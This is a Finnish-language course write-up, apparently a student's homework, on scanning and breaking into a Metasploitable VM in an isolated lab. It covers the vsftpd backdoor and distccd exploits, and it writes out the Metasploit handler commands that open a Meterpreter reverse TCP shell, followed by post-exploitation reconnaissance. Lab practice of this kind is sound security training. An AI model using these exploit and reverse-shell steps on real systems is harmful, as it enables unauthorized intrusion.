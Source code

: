 # Social sploit

## Johdanto

Kotitehtävässä h2 tuli jatkaa kokeiluja porttiskannaamisesta (kotitehtävä h1) ja kokeilla muutamia hyökkäyskeinoja Metasploitablen avulla (aloitin tämän jo 1.11 oppitunnilla).

Asensin Metasploitablen ja Kalin sekä HostOnly-ethernetverkon jo aikaisempaa kotitehtävää varten, joten siirryin suoraan tehtävän pariin.

## Tiivistys (kohta X)

Kohdassa X luin "Conducting a penetration test with Metasploit" osuuden Jaswalin kirjasta ja tein seuraavat muistiinpanot;

-Murtotestaamisen avulla voidaan testata järjestelmän haavoittuvaisuuksia, vastatoimia ja mahdollisia reikiä puolustuksessa.

-Metasploitablessa voidaan lähettää erilaisia hyökkäyspaketteja turvallisessa ja vakaassa ympäristössä.

-Kompromisoidussa järjestelmässä voidaan käyttää Meterpreter-ohjelmaa, joka tarjoaa vakaammaan ja monipuolisemman alustan kompromisoidun kohteen tutkimiseen.

### Lähteet

Jaswal 2020: Conducting a penetration test with Metasploit. Luettavissa: https://learning.oreilly.com/library/view/mastering-metasploit/9781838980078/B15076_01_Final_ASB_ePub.xhtml#_idParaDest-31. Luettu: 6.11.2024

## Porttiskannaus (kohdat A-F)

Varmistin ensin tuttuun tapaan, että laitteet ovat irti Internetistä ja että ne saavat yhteyden toisiinsa `ping` komennolla. Molemmat virtuaalikoneet ovat HostOnly-verkossa, jonka lisäksi Kali-virtuaalikoneella on NAT-verkkokortti, joka on irroitettu.

![image](https://github.com/user-attachments/assets/f2a45fd1-2004-48b1-bf73-ef999d3e6b4a)

![image](https://github.com/user-attachments/assets/c3f97317-d817-4b9f-9fa9-b309df1677e5)

_Totesin testein, että koneet ovat irti Internetistä, mutta saavat HostOnly-verkossa toisiinsa yhteyden._

Seuraavaksi etsin Metasploitablen porttiskannaamalla ja tarkistin olevani oikeassa IP-osoitteessa selaimen avulla. Tätä varten avaan ensin Metasploitablen konsolin komennolla `msfconsole` ja tämän jälkeen suoritan aliverkon porttiskannauksen komennolla `db_nmap -sn 192.168.82.0/24`

![image](https://github.com/user-attachments/assets/49d9b573-0d62-43cd-8d61-04c1686fd9a2)

_Aliverkon porttiskannaus_

Aliverkko `192.168.82.0/24` skannattiin ja lopputuloksena 256 IP-osoitteesta vain kaksi oli käytössä, eli Kali osoitteessa `192.168.82.4` ja toinen kone osoitteessa `192.168.82.3`. Nopea Firefox-haku totesi jälkimmäisen osoitteen omaksi Metasploitable-virtuaalikoneeksi.

![image](https://github.com/user-attachments/assets/b5e4c63e-c30a-451a-b11d-1ea532a33242)

_Metasploitablen IP-osoite hakukoneessa._

Seuraavaksi skannasin Metasploitablen perusteellisesti ja tallensin tiedot tarkasteltavaksi. Tämä järjestyy komennolla `db_nmap -A -p- 192.168.82.3` josta `db_` osio tallentaa tulosteen Metasploitablen tietokantoihin ja `-A -p-` spesifoi haun olevan kattava ja koskevan kaikkia portteja. Tämän jälkeen voin käyttää milloin vaan komentoja `hosts` ja `services` skannauksen tuloksien tarkastelua varten. Voin myös suodattaa näistä tuloksista tietoja. Metasploitable ei tunnu tykkäävän merkistä `|`, joten käytin komentoa `services -S apache` suodattaakseni vain apacheen liittyvät tulokset.

![image](https://github.com/user-attachments/assets/80d91c19-1abd-409f-8a49-63f64ae7d25c)

_Porttiskannauksen tulosten tarkastelu jälkeenpäin_

![image](https://github.com/user-attachments/assets/eafd7ac0-f5cf-4545-95e4-d936b4718780)

_Porttiskannauksen tulosten suodattaminen_

Käytin tämän keinon lisäksi myös komentoa `nmap -A -p- -oA scan_result 192.168.82.3`, joka tallentaa samat tiedot kolmeen eri tiedostoon; `scan_result.nmap`, `scan_result.xml` ja `scan_result.gnmap`. Näistä `.nmap` on nmap tuloste skannauksesta, `.xml` sama tuloste `XML` muodossa ja `.gnmap` on helposti `grep`-komennolla haettava tiedosto.

Näistä skannaustulosteista `db_nmap` on hyvä ja nopea saada Metasploitablen konsoliin tarvittavat tiedot jatkotoimia varten. `nmap -oA` sen sijaan antoi monimuotoisemman tulosteen, jota voi olla helpompi hyödyntää esim. työkaluissa ja skriptaamisessa. Käytin itse mielummin `db_nmap`-tulostetta sen käyttöhelppouden vuoksi kunnes tarvitsin tarkempaa tietoa tai tietoa helpommasti tulkittavassa muodossa.

### Lähteet

## Tunkeutuminen (kohdat G-N)

Seuraavaksi kokeilin murtautua Metasploitableen käyttäen takaovea portissa 21 (`vsftpd`). Pystyin tarkistamaan tämän heikkouden olemassaolon aikaisemmin käytetyllä `services -S`-komennolla. Tämän jälkeen valitsin hyökkyksen sekä maalin ja käskin aloittaa hyökkäyksen `exploit`-komennolla.

![image](https://github.com/user-attachments/assets/95bbeb08-bafa-47ed-b5de-82e796431f30)

_Onnistunut vsftpd hyökkäys_

Onnistuneen hyökkäyksen jälkeen aloin valmistelemaan Meterpreteriä, jotta voisin kerätä levittämiseen tarvittavaa tietoa tehokkaasti. Aluksi asetin `vsftpd`-yhteyden taustalle komennolla `background` ja suoritin Meterpreter-yhteyden luomisen seuraavalla komentosarjalla;

```
use exploit/multi/handler
set payload linux/x86/meterpreter/reverse_tcp
set LHOST 192.168.82.4
set LPORT 4443
exploit -j
```

Tämä komentopätkä kertoi Meterpreterille tärkeät tiedot kohteesta sekä omasta koneestani. Tämän jälkeen voin päivättää nykyisen yhteyden `sessions 1` komennolla `sessions -u 1` ja täten saada Meterpreter toimimaan `vsftpd`-shellissä komennolla `sessions -i 2`

![image](https://github.com/user-attachments/assets/19638edd-d664-4ea4-9c94-377d808ce815)

_Meterpreter käyttöön_

Nyt kun sain Meterpreterin käyttöön, oli helppoa kerätä tärkeää tietoa koneesta jatkotoimien kannalta. Levittäytymiseen tähtäävä toimija saattaa olla kiinnostunut esimerkiksi kolmesta seuraavasta tiedoista;

```
meterpreter > sysinfo
Computer     : metasploitable.localdomain
OS           : Ubuntu 8.04 (Linux 2.6.24-16-server)
Architecture : i686
BuildTuple   : i486-linux-musl
Meterpreter  : x86/linux
meterpreter > ipconfig
```

Komento `sysinfo` kertoi koneen melko traagisesta tietoturvatilasta jossa käyttöjärjestelmä, kerneli ja arkkitehtuuri ovat vanhentuneita tai vanhaa teknologiaa. Tämä tarjoaa runsaasti jatkohyökkäysmahdollisuuksia.

```
meterpreter > ipconfig
Interface  2
============
Name         : eth0
Hardware MAC : 08:00:27:29:72:cb
MTU          : 1500
Flags        : UP,BROADCAST,MULTICAST
IPv4 Address : 192.168.82.3
IPv4 Netmask : 255.255.255.0
IPv6 Address : fe80::a00:27ff:fe29:72cb
IPv6 Netmask : ffff:ffff:ffff:ffff::
```

Komento `ipconfig` kertoi lisää koneen verkosta. Sain tätä kautta tietoon aliverkkomaskin `255.255.255.0` jota voi hyödyntää verkon skannaamisessa. Voimme myös olettaa laitteen olevan virtuaalikone sillä MAC-osoite `08:00:27` yhdistetään yleensä VirtualBoxiin.

Lopuksi ajoin komennon `ps`, joka kertoi koneen prosesseista. Huomattavia olivat esimerkiksi `4194 mysqld` josta voisi kaivaa kriittistä dataa, `distccd`, jonka tunnettu heikkous sallii koodin ajamisen etänä sekä `4054 named` eli BIND DNS-palvelin, jotka ovat tunnetusti alttiita hyökkäyksille. Näiden lisäksi prosesseissa on lukuisia muita heikkouksia joiden avulla voisi levittäytyä järjestelmään.

Aikaisemman osion `distccd` on toinen kiinnostava tapa päästä käsiksi koneeseen. Tein ensin hyökkäyksen ja exploittasin sen, kuten aikaisemminkin. Tällä kertaa alkuperäinen payload ei toiminut, joten hain computersecuritystudent oppitunnin verkkosivuilta toisen vaihtoehdon, joka toimi.

![image](https://github.com/user-attachments/assets/88b23cf1-a4db-4c59-b8dc-7350d3b3c03e)

Tämän jälkeen seurasin tuttua Meterpreter-yhteyden muodostamisprosessia, käyttäen aiempi konfigurointeja. Pääsin helposti sisään ja sysinfosta voin päätellä, että ollaan aiemmasta murtautumisesta tutulla paikalla.

![image](https://github.com/user-attachments/assets/d2282d0a-7142-4ddf-aaa3-565fc73fa9bc)

Kokeilin vielä joitain Meterpreterin komentoja ja tallensin näistä login tekstitiedostoon `log001.txt` komennolla  `script -fa log001.txt`.

### Lähteet

https://www.rapid7.com/db/modules/exploit/unix/ftp/vsftpd_234_backdoor/

https://www.computersecuritystudent.com/SECURITY_TOOLS/METASPLOITABLE/EXPLOIT/lesson2/index.html

https://docs.rapid7.com/metasploit/use-meterpreter-locally-without-an-exploit/

https://www.offsec.com/metasploit-unleashed/meterpreter-basics/

## Yleiset lähteet

Pohjana Tero Karvinen 2024: Tunkeutumistestaus -kurssi. Luettavissa: https://terokarvinen.com/tunkeutumistestaus/.

Metaspoitable exploitability guide. Luettavissa: https://docs.rapid7.com/metasploit/metasploitable-2-exploitability-guide/. Luettu 6.11.2024

Tätä dokumenttia saa kopioida ja muokata GNU General Public License (versio 2 tai uudempi) mukaisesti. http://www.gnu.org/licenses/gpl.html

